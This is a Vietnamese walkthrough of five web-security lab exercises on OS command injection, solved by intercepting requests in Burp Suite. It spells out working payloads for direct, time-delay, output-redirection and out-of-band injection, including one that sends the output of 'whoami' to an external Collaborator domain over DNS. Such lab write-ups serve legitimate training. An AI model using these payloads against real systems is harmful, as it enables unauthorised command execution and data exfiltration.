# __Lab: OS command injection, simple case__

Access Lab, Bật Intercept và truy cập vào 1 bài viết bats kì để Burpsuite chặn được POST /product/stock 



Send to Repeater, thêm |whoami vào storeId và send để biết được giá trị whoami và hoàn thành bài lab




# __Lab: Blind OS command injection with time delays__

Access Lab, truy cập submit feedback và gửi 1 feedback bất kì. Bật Intercept để Burpsuite có thê bắt được POST /feedback/submit.



Send to Repeater, để giải bài lab thì cần gây ra sự phản hồi chậm 10s của hệ thống. Thêm ||ping+-c+10+127.0.0.1|| vào email để gây ra sự trì hãn.



Send để hoàn thành bài lab



# __Lab: Blind OS command injection with output redirection__

Access Lab, truy cập submit feedback và gửi 1 feedback bất kì. Bật Intercept để Burpsuite có thê bắt được POST /feedback/submit.



Cùng với GET /image?filename, Send cả 2 tới Repeater. Trong Repeater ở tab POST /feedback/submit thêm ||whoami>/var/www/images/whoami.txt|| vào các giá trị như name, email, subject và message rồi send 



Chuyển sang tab GET /image?filename sửa giá trị của filename thành whoami.txt và send Burpsuite sẽ trả về giá trị thực của whoami và hoàn thành bài lab




# __Lab: Blind OS command injection with out-of-band interaction__

Access Lab, truy cập submit feedback và gửi 1 feedback bất kì. Bật Intercept để Burpsuite có thê bắt được POST /feedback/submit.



Send to Repeater, sử dụng nslookup để có thể tra cứu DNS, đông thời xác định xem quá trình tra cứu có diễn ra hay không. Ở repeater thêm ||nslookup+parameter.BURP-COLLABORATOR-SUBDOMAIN||.



Bằng cách sử dụng 1 tên miền giả được tạo ra từ Collaborator thì có thể theo dõi quá trình tra cứu. Send và hoàn thành bài lab



# __Lab: Blind OS command injection with out-of-band data exfiltration__

Access Lab, truy cập submit feedback và gửi 1 feedback bất kì. Bật Intercept để Burpsuite có thê bắt được POST /feedback/submit.



Send to Repeater, sử dụng nslookup để có thể tra cứu DNS, đông thời xác định xem quá trình tra cứu có diễn ra hay không. Ở repeater thêm ||nslookup+`whoami`.BURP-COLLABORATOR-SUBDOMAIN||.



Sau khi send Collaborator sẽ trả về domain name chứa giá trị của whoami



Sử dụng dữ liệu để submit và hoàn thành bài lab

